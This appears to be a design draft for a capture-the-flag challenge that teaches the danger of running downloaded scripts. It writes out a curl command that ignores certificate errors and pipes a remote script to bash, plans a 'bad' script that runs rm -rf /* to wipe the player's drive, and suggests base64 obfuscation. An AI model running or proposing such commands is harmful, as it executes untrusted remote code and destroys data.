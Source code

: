 ## Challenge Text
Why's the rum always gone?

`# curl -k https://jackthemonkey.dotpyfe.net/barbossa.sh | bash`

## Overview
A two-stage challenge using flags to reward intelligence and false flags (and
`rm -rf /*`) to punish stupidity.

False flags are worth negative points (can we do this?).

One option to add an additional stage would be do something like base64 encode
the script so it isn't immediately obvious what's going to happen.

NOTE: These are general thoughts and I haven't actually investigated feasibility

### Stage 1
A `# curl -Ok <url>/barbossa.sh; chmod +x ./barbossa.sh` is presented to the
user with the instructions to run the above. In the good and bad versions of
`barbossa.sh`, there will be a comment at the top with a flag. 

#### Premise
The URL presented will use a TLS certificate which isn't valid for the domain
name. If a user blindly runs the command, they download the bad version of
`barbossa.sh` since `-k` ignores the bad cert (I'm pretty sure this is the flag
to use based on `man curl`). If the user checks the certificate for the hostname
it was created for, replaces the URL in the command presented with the real
hostname, they get the 'good' version of `barbossa.sh`. Using SNI, this should
be doable.

### Stage 2
Using `barbossa.sh` which was downloaded earlier, the user is instructed to run
`./barbossa.sh`. Executing the script outputs another flag. If the user
downloaded the bad version, then `barbossa` begins wiping out everything it can
under `/`. After a few seconds, the false flag is displayed, there's a message
stating that the user shouldn't have run arbitrary commands, and that the drive
is being wiped. The good `barbossa` displays a congratulatory message and the
real flag.
